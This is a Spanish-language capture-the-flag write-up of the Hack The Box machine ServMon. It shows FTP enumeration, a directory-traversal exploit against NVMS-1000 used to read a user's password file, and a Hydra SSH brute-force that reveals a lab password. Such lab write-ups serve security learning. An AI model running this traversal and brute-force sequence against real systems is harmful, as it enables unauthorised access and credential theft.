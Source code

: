Dentro del directorio de Nadine hay un archivo llamado `Confidential.txt`, así que procedemos a descargarlo en nuestra máquina.

```console
ftp> dir
200 PORT command successful.
150 Opening ASCII mode data connection.
01-18-20  12:08PM                  174 Confidential.txt
226 Transfer complete.
ftp> mget Confidential.txt
mget Confidential.txt? yes
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
174 bytes received in 3.09 secs (0.0549 kB/s)
```

El contenido del archivo es:
```console
Nathan,

I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.

Regards

Nadine
```

### HTTP

Se procede a entrar al sitio web encontramos `NVMS-1000` que es un cliente de videovigilancia en red. Buscando en [Exploit-db](https://www.exploit-db.com/exploits/48311) este cliente es vulnerable a ataques de directorio trasversal.

Este exploit aprovecha la vulnerabilidad de `directorio transversal` la cual permite acceder a cualquier tipo de directorio o archivos sensibles.


## Explotación

En el archivo `Confidential.txt` que encontramos en el directorio de `Nadine` en el FTP nos informa que en el escritorio de `Nathan` se encuentra el archivo `Passwords.txt`. Así que utilizando el exploit que se descargó anteriormente,  vamos a obtener la información que hay en el archivo.

```python
python exploit.py http://servmon.htb users/nathan/passwords.txt passwords.txt
```

Ahora, conociendo el nombre de dos usuarios `Nadine` y `Nathan` y contraseñas, vamos a hacer uso de la herramienta Hydra para realizar un ataque de fuerza bruta para ingresar vía SSH. Para esto, además del archivo `passwords.txt` vamos a crear un archivo `users.txt` con los dos usuarios encontrados en FTP.

```console
root@kali:/home/kali/Documents/HTB/Machines/ServMon/content# hydra -L users.txt -P passwords.txt servmon.htb ssh
Hydra v9.0 (c) 2019 by van Hauser/THC

[DATA] attacking ssh://servmon.htb:22/
[22][ssh] host: servmon.htb   login: nadine   password: L1k3B1gBut7s@W0rk
```
Ahora ingresamos con las credenciales del usuario y obtenemos el flag del user.
